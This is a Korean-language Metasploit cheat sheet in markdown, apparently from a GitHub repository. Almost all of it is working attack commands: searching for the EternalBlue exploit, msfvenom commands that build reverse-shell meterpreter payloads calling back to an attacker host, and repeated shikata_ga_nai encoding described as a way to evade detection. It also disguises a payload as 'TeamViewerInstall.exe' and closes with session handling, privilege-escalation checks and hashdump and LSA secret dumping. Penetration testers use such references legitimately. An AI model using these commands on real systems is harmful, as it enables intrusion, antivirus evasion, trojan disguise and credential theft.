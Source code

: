# MSF Components

### 모듈 검색
```msf6 > search <모듈명>```

### 특정 Exploit 모듈 검색
```msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft```

## 특정 Payload 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads```

### 특정 Payload 추가 명령 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads```

### MSFVenom으로 Payload 생성 (예 : aspx)
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f aspx > reverse_shell.aspx```

### MSFVenom으로 Payload Encoding (예 : shikata_ga_nai)
```msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai```

### MSF에서 Payload Encoding
```msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders```

### 탐지 우회를 위한 반복 Encoding (약간의 효과)
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 플러그인 추가 설치(예 : pentest)
```
git clone https://github.com/darkoperator/Metasploit-Plugins
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
msfconsole -q
msf > load pentest
```

### 추가 모듈 로딩 방법(3가지)
- ```msfconsole -m /usr/share/metasploit-framework/modules/```
- ```msf6> loadpath /usr/share/metasploit-framework/modules/```
- ```msf6 > reload_all```

### 인기 있는 플러그인
| [nMap (pre-installed)](https://nmap.org/)                                                                           | [NexPose (pre-installed)](https://sectools.org/tool/nexpose/)                                                                       | [Nessus (pre-installed)](https://www.tenable.com/products/nessus)                                               |
| ------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| [Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)                                                 | [Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) | [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| [Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) | [Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)                                 | [Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)                                            |

<br/><br/>
# MSF Sessions

### 활성 Session List
```msf6 exploit(windows/smb/psexec_psh) > sessions```

### 활성 Session 사용
```msf6 exploit(windows/smb/psexec_psh) > sessions -i 1```

### 백그라운드 Job으로 실행
```msf6 exploit(multi/handler) > exploit -j```

### 백그라운드 Job List
```msf6 exploit(multi/handler) > jobs -l```

### Meterpreter Session에서 MSF로 잠시 전환
```meterpreter > bg```

### Local Exploit Suggester로 권한 상승 exploit 테스트
```
msf6 > search local exploit suggester
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Meterpreter Session에서 Hash 추출 (SYSTEM 권한일 경우)
```meterpreter > hashdump```<br/>
```meterpreter > lsa_dump_sam```<br/>
```meterpreter > lsa_dump_secrets```
